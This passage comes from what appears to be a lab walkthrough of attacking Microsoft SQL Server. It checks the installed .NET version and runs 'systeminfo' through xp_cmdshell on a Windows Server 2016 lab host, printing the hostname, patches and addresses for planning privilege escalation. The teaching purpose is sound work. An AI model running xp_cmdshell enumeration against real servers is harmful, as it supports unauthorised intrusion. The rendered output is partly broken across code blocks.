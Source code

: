We can see that **.NET Framework 4.6.01586** is installed under:
**HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full**
This means we can confidently use tools compiled for **.NET 4.6 or lower**, ensuring compatibility during privilege escalation.
![EnumDotNet](assets/images/mssql/enumerate-dotnet-version-output.png)

### Enumerate System Information

To gather basic details about the target host such as the OS version, hostname, architecture, and patch level, we can use the built-in **systeminfo** command via **xp_cmdshell**. This information is valuable for tailoring exploits, understanding the environment, and planning privilege escalation techniques.

**Command:**
```sql
EXEC xp_cmdshell 'systeminfo';
```
The output below shows the output of **systeminfo**, revealing useful details such as the OS version (Windows Server 2016), build number, system architecture, and more — all directly from within the SQL Server session.

**Output:**
```sql
SQL (ESSOS\khal.drogo  dbo@master)> EXEC xp_cmdshell 'systeminfo';
output                                                                                                            
---------------------------------------------------------------------------------------------------------------   
NULL                                                                                
Host Name: BRAAVOS                                                                 
OS Name: Microsoft Windows Server 2016 Standard Evaluation                         
OS Version:10.0.14393 N/A Build 14393                                              
OS Manufacturer: Microsoft Corporation                                             
OS Configuration: Member Server                                                    
OS Build Type: Multiprocessor Free 

Registered Owner:                                                                  
Registered Organization: Vagrant                                                   
Product ID:00378-00000-00000-AA739                                                 
Original Install Date:2/20/2025, 1:42:58 PM 

System Boot Time:5/9/2025, 8:36:54 AM                                              
System Manufacturer: VMware, Inc.                                                  
System Model: VMware Virtual Platform                                              
System Type: x64-based PC                                                                           
Processor(s): 4 Processor(s) Installed.                                            
[01]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~2195 Mhz                  
```

[02]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~2195 Mhz                  
[03]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~2195 Mhz                  
[04]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~2195 Mhz                      
[01]: KB3192137                                                                    
[02]: KB3211320                                                                    
[03]: KB4485447                                                                    
[04]: KB4487026                                                                    
[01]: Intel(R) PRO/1000 MT Network Connection                                      
[01]: 192.168.1.178                                                              
[02]: fe80::599b:eaa9:2243:dfe5                                                  
[03]: fd78:4c15:7f9d:1:599b:eaa9:2243:dfe5                                       
[04]: fd78:4c15:7f9d:0:599b:eaa9:2243:dfe5                                       
[05]: 2a00:23c6:5ca1:1b01:599b:eaa9:2243:dfe5                                    
[06]: 2a00:23c6:5ca1:1b01::178                                                   
[07]: 2a00:23c6:5ca1:1b00:599b:eaa9:2243:dfe5                                    
[02]: Intel(R) PRO/1000 MT Network Connection                                          
[01]: 192.168.56.23                                                              
[02]: fe80::8ceb:b7c:aca6:f909                                                   